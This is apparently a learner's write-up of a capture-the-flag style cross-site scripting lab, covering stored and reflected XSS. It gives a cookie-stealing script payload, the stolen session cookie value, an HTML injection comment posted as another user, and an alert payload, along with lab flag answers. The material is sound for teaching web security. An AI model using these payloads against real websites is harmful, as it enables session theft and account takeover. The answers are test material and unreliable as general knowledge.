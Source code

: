 Take over Jack's account by stealing his cookie, what was his cookie value?

*HINT:* Steal Jacks cookie and update your own cookie with the value of his cookie

*payload:* 	 `<script>document.location='/log/'+document.cookie</script`

you will see the log and cookies
![[Pasted image 20210610124405.png]]

*ANSWER:* `connect.sid s%3Aat0YYHmITnfNSF0kM5Ne-ir1skTX3aEU.yj1%2FXoaxe7cCjUYmfgQpW3o5wP3O8Ae7YNHnHPJIasE`



6. Post a comment as Jack.



*payload:* `<a>jack</a>`

![[Pasted image 20210610124238.png]]


### TASK 4: REflected XSS

In a reflected cross-site scripting attack, the malicious payload is part of the victims request to the website. The website includes this payload in response back to the user. To summarise, an attacker needs to trick a victim into clicking a URL to execute their malicious payload.  

This might seem harmless as it requires the victim to send a request containing an attackers payload, and a user wouldn't attack themselves. However, attackers could trick the user into clicking their crafted link that contains their payload via social-engineering them via email..

Reflected XSS is the most common type of XSS attack.

**An example**

![](https://i.imgur.com/yX7zRh8.png)  

An attacker crafts a URL containing a malicious payload and sends it to the victim. The victim is tricked by the attacker into clicking the URL. The request could be 
`http://example.com/search?keyword=<script>...</script>` 

The website then includes this malicious payload from the request in the response to the user. The victims browser will execute the payload inside the response. The data the script gathered is then sent back to the attacker (it might not necessarily be sent from the victim, but to another website where the attacker then gathers this data - this protects the attacker from directly receiving the victims data).


1. Craft a reflected XSS payload that will cause a popup saying "Hello"

*payload:* `<script>alert("Hello")</script>`

![[Pasted image 20210610132550.png]]

![[Pasted image 20210610132623.png]]

*ANSWER:* ThereIsMoreToXSSThanYouThink
